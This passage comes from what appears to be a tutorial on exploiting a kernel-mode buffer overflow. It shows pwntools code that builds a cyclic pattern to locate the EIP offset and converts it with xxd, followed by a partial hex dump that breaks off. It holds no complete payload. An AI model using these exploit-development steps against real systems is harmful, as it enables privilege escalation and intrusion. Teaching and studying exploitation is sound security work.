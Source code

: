[scoop](https://scoop.sh/) or other means ) to output them in a C-style buffer 
so we can copy them over to our exploit.  
<br>

---

**TIP**  
The pwntools cyclic generator will create a new pattern for every generator you 
create, hence it is important to use the same generator to find the pattern as 
you used to create the pattern. i.e. You have to run this in a python REPL, and 
keep that REPL active whilst your perform the next few steps so that later when 
you have a value from EIP that you want to pass to generator.find() the 
generator will be the same one you used to create the pattern.

---

<br>
```python
from pwn import *

generator = cyclic_gen()

buffer = generator.get(2100)

with open('Ring0Payload', 'wb') as f:
    f.write(buffer) 
```
<br>
```powershell
xxd -i Ring0Payload
```
<br>
```c
> unsigned char __Ring0Payload[] = {
  0x7a, 0x61, 0x61, 0x76, 0x62, 0x61, 0x61, 0x76, 0x63, 0x61, 0x61, 0x76,
  0x64, 0x61, 0x61, 0x76, 0x65, 0x61, 0x61, 0x76, 0x66, 0x61, 0x61, 0x76,
  0x67, 0x61, 0x61, 0x76, 0x68, 0x61, 0x61, 0x76, 0x69, 0x61, 0x61, 0x76,
  0x6a, 0x61, 0x61, 0x76, 0x6b, 0x61, 0x61, 0x76, 0x6c, 0x61, 0x61, 0x76,
  0x6d, 0x61, 0x61, 0x76, 0x6e, 0x61, 0x61, 0x76, 0x6f, 0x61, 0x61, 0x76,
  0x70, 0x61, 0x61, 0x76, 0x71, 0x61, 0x61, 0x76, 0x72, 0x61, 0x61, 0x76,
  0x73, 0x61, 0x61, 0x76, 0x74, 0x61, 0x61, 0x76, 0x75, 0x61, 0x61, 0x76,
  0x76, 0x61, 0x61, 0x76, 0x77, 0x61, 0x61, 0x76, 0x78, 0x61, 0x61, 0x76,
  0x79, 0x61, 0x61, 0x76, 0x7a, 0x61, 0x61, 0x77, 0x62, 0x61, 0x61, 0x77,
  0x63, 0x61, 0x61, 0x77, 0x64, 0x61, 0x61, 0x77, 0x65, 0x61, 0x61, 0x77,
  0x66, 0x61, 0x61, 0x77, 0x67, 0x61, 0x61, 0x77, 0x68, 0x61, 0x61, 0x77,
  0x69, 0x61, 0x61, 0x77, 0x6a, 0x61, 0x61, 0x77, 0x6b, 0x61, 0x61, 0x77,
  0x6c, 0x61, 0x61, 0x77, 0x6d, 0x61, 0x61, 0x77, 0x6e, 0x61, 0x61, 0x77,
  0x6f, 0x61, 0x61, 0x77, 0x70, 0x61, 0x61, 0x77, 0x71, 0x61, 0x61, 0x77,
  0x72, 0x61, 0x61, 0x77, 0x73, 0x61, 0x61, 0x77, 0x74, 0x61, 0x61, 0x77,
  0x75, 0x61, 0x61, 0x77, 0x76, 0x61, 0x61, 0x77, 0x77, 0x61, 0x61, 0x77,
  0x78, 0x61, 0x61, 0x77, 0x79, 0x61, 0x61, 0x77, 0x7a, 0x61, 0x61, 0x78,
  0x62, 0x61, 0x61, 0x78, 0x63, 0x61, 0x61, 0x78, 0x64, 0x61, 0x61, 0x78,
  0x65, 0x61, 0x61, 0x78, 0x66, 0x61, 0x61, 0x78, 0x67, 0x61, 0x61, 0x78,
  0x68, 0x61, 0x61, 0x78, 0x69, 0x61, 0x61, 0x78, 0x6a, 0x61, 0x61, 0x78,
  0x6b, 0x61, 0x61, 0x78, 0x6c, 0x61, 0x61, 0x78, 0x6d, 0x61, 0x61, 0x78,
  0x6e, 0x61, 0x61, 0x78, 0x6f, 0x61, 0x61, 0x78, 0x70, 0x61, 0x61, 0x78,
  0x71, 0x61, 0x61, 0x78, 0x72, 0x61, 0x61, 0x78, 0x73, 0x61, 0x61, 0x78,
  0x74, 0x61, 0x61, 0x78, 0x75, 0x61, 0x61, 0x78, 0x76, 0x61, 0x61, 0x78,
  0x77, 0x61, 0x61, 0x78, 0x78, 0x61, 0x61, 0x78, 0x79, 0x61, 0x61, 0x78,
  0x7a, 0x61, 0x61, 0x79, 0x62, 0x61, 0x61, 0x79, 0x63, 0x61, 0x61, 0x79,
  0x64, 0x61, 0x61, 0x79, 0x65, 0x61, 0x61, 0x79, 0x66, 0x61, 0x61, 0x79,
  0x67, 0x61, 0x61, 0x79, 0x68, 0x61, 0x61, 0x79, 0x69, 0x61, 0x61, 0x79,
  0x6a, 0x61, 0x61, 0x79, 0x6b, 0x61, 0x61, 0x79, 0x6c, 0x61, 0x61, 0x79,
  0x6d, 0x61, 0x61, 0x79, 0x6e, 0x61, 0x61, 0x79, 0x6f, 0x61, 0x61, 0x79,
  0x70, 0x61, 0x61, 0x79, 0x71, 0x61, 0x61, 0x79, 0x72, 0x61, 0x61, 0x79,
  0x73, 0x61, 0x61, 0x79, 0x74, 0x61, 0x61, 0x79, 0x75, 0x61, 0x61, 0x79,
```